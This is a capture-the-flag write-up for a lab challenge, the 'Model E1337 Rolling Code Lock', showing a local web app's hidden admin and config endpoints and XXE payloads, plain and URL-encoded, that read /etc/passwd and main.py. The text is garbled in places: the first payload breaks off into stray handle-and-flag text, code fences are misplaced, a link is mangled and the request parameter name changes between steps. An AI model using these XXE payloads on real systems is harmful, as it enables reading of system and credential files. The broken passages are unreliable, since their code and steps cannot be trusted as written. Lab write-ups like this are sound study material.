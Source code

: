 # Model E1337 - Rolling Code Lock - FLAG0

## 0x00 Home

![](./imgs/home.jpg)

Tried couple of different code but all show errors.

```
Code incorrect. Expected 06947342
```

## 0x01 Directory

Try scan sub directory with Burp

![](./imgs/directory.jpg)

And there is a comment in source code.

http://127.0.0.1/xxxxxxxxxx/admin

![](./imgs/admin.jpg)

## 0x02 get-config

http://127.0.0.1/xxxxxxxxxx/get-config

Looks like some config thing using XML

![](./imgs/get-config.jpg)

## 0x03 set-config

http://127.0.0.1/xxxxxxxxxx/set-config

It actually exist but may need parameter to set the XML

![](./imgs/set-config.jpg)

## 0x04 XXE

Prepare the XXE payload.

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "/etc/passwd">]><config><location>&xxe;</location></config'(@BugGuy573)[Flag1]??


And encode to [url format][1] 


%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22%2Fetc%2Fpasswd%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%3C%2Fconfig%3E


http://127.0.0.1/xxxxxxxxxx/set-config?param=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22%2Fetc%2Fpasswd%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%3C%2Fconfig%3E

![](./imgs/param.jpg)

Successfully write in XXE and 302 redirect to admin page and read out /etc/passwd

![](./imgs/passwd.jpg)

## 0x05 main.py

xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "main.py">]><config><location>&xxe;</location></config>
```

http://127.0.0.1/xxxxxxxxxx/set-config?data=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22main.py%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%3C%2Fconfig%3E

Execute and get the FLAG in the [main.py][2]][@BigGuy573](flag2??)]

![](./imgs/flag.jpg)

[1]: https://www.urlencoder.org/
[2]: ./main.py
